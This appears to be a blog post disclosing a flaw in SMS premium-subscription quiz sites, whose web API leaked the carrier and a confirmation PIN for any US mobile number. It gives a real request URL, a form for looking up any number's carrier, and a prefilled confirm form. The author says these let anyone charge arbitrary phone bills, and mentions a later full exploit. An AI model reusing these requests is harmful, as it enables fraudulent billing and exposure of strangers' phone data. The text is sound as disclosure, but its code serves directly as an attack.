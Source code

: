 ```yaml
---
title: "Security hole: charge money to any mobile number"
tags: 
  - security
  - zero-day
old-link: https://privacylog.blogspot.com/2009/01/security-hole-in-sms-spam-websites.html
updates:
  - date: 2010-01-02
    changes: Posted full exploit
---
```


### Web 2.0 Programming Model and Security Concerns

The Web 2.0 paradigm introduces a new web programming model. However, with new programming models comes the risk of developer incompetence.

#### Old Model

```mermaid
graph TD;
    Client-->Server;
    Server-->Database;
```

#### New Model

```mermaid
graph TD;
    Client-->Server;
    Client-->Database;
```

The problem with the new model is that the database is now another source of entry. It's crucial to remember that if a client is making a request to your server, you need to scrutinize that request every time.

### SMS Spam Websites

Examples of SMS spam websites include:

- [triviaspace.net/US1](https://www.triviaspace.net/US1/)
- [iqlovetestv0.iqlovetest.com](https://iqlovetestv0.iqlovetest.com/)
- [thankyoupath.com/landing_pages/quiz_dating](https://www.thankyoupath.com/landing_pages/quiz_dating/)

![Screenshot](/assets/images/2009-01-17-security-hole-in-sms-spam-websites.webp)

### Exploit Example

After completing a quiz, your browser may be asked to load a script like this:

```
https://rpcus1.z-sms.com/HttpRpc/IQ_Pin_US.php?CarrierCompliant=no&Score=17&IP=1.2.3.4&Host=&Name=&Starsign=&Source=41152&Number=2152223456&Service=WEEKLY_TRIVIA_44999_999&ShortCode=44999&Message=Haha!&MessageVer=Haha&MessageATT=Haha
```

This script loads something like:

```
javascript
Copy code
var Provider = 'tmobile';
var Code = 1777;
var LoversName = 'CHARLIE';
var IQ = '85';
var Origin = '';
var Meaning = '';
var Tester1 = '987';
var Tester2 = '7555';
var Tester3 = '987';
```

You can use this Web API to learn the service provider for any phone number in the US (works for most numbers):

```html
<form action="https://rpcus1.z-sms.com/HttpRpc/IQ_Pin_US.php" method="get" target="_new">
    Phone number: <input name="Number"><br>
    (do not use dashes here)<br>
    <input type="submit" value="Get provider">
</form>
```

After you get that page, read the `var Provider='...'` part. If it's a Sprint number, you can call 888-211-4727 to see how many minutes were used by that phone number in the past month.

If you used a URL like the one above for your first request, you would also get a `Code=###` part. That code could be input into a page like this:

```html
<form action="https://www.triviaspace.net/US1/confirm.php?a=41152" method="post" name="form1" onsubmit="Validate(txtPin)">
    <input id="Service" name="Service" value="WEEKLY_TRIVIA_44999_999" type="hidden">
    <input id="Shortcode" name="Shortcode" value="44999" type="hidden">
    <input id="Provider" name="Provider" value="" type="hidden">
    <input id="RealPin" name="RealPin" value="" type="hidden">
    <input id="Portal" name="Portal" value="TheIqQuiz.com" type="hidden">
    <input id="LoversName" name="LoversName" value="" type="hidden">
    <input id="IQ" name="IQ" value="" type="hidden">
    <input id="Origin" name="Origin" value="" type="hidden">
    <input id="Meaning" name="Meaning" value="" type="hidden">
    <input id="fPin" maxlength="5" name="txtPin" type="hidden">
</form>
```

Now... ~~I'm not giving you the full details to run this request~~. **See update below**. But, if you followed through, the result is a simple Web API that allows you to charge money on the phone bill of arbitrary mobile phone users. That's what I call a failure in security.
